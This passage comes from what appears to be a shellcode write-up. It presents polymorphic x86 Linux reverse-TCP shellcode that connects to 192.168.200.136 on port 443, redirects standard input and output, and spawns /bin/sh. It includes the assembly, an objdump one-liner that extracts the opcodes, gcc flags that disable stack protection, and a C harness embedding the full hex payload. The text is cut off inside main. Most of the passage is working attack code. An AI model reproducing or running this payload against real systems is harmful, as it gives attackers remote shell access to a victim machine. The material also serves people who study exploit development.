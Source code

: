 	mov    dword [esp-4],edi ;ip 192.168.200.136
	mov    cx, 0xbbbc
	add    cx, 0x1111
	sub    cx, 0x11cc
	mov    word [esp-6],cx ;port 443
	sub esp,6
	push   bx
	inc    bl
	mov    ecx,esp
	push   0x10
	push   ecx
	push   esi
	mov    ecx,esp
	int    0x80
	xor    ecx,ecx
	mov    cl,0x3
dupfd:
	dec    cl
	mov    al,0x3f
	int    0x80
	jne    dupfd
	xor    eax,eax
	mov dword [esp-4],edx
	mov dword [esp-8],0x68732f6e ;push   0x68732f6e
	mov dword [esp-12],0x69622f2f ;push   0x69622f2f
	sub esp,12
	mov    ebx,esp
	push   edx
	push   ebx
	mov    ecx,esp
	push   edx
	mov    edx,esp
	mov    al,0xb
	int    0x80
{% endhighlight %}

{% highlight js %}
assembly compilation:
./compile PolyReverseTCP-1

shellcode extraction:
objdump -d ./PolyReverseTCP-1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

shellcode.c compilation:
gcc -fno-stack-protector -z execstack shellcode-poly.c -o shellcode-poly
{% endhighlight %}

shellcode-poly.c:

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xc1\xe0\x02\xc1\xe8\x04\xb0\x66\x31\xdb\xb3\x02\xbf\x7c\x31\x62\x11\x81\xc7\x44\x77\x66\x77\x89\x7c\x24\xfc\x66\xb9\xbc\xbb\x66\x81\xc1\x11\x11\x66\x81\xe9\xcc\x11\x66\x89\x4c\x24\xfa\x83\xec\x06\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x89\x54\x24\xfc\xc7\x44\x24\xf8\x6e\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x2f\x62\x69\x83\xec\x0c\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80"
;

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));
